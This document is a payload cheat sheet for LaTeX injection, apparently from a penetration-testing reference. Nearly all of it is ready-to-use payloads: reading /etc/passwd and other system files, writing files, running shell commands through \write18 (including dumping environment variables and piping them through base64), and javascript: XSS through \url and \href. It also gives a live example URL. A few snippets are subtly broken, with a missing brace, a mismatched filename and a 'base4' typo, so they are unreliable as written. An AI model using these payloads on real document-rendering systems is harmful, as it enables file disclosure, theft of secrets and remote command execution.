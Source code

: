 # LaTex Injection

## Read file

```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, keep the formatting

```bash
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 
```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

Live example at `http://payontriage.com/xss.php?xss=$\href{javascript:alert(1)}{Frogs%20find%20bugs}$`

## References

* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)
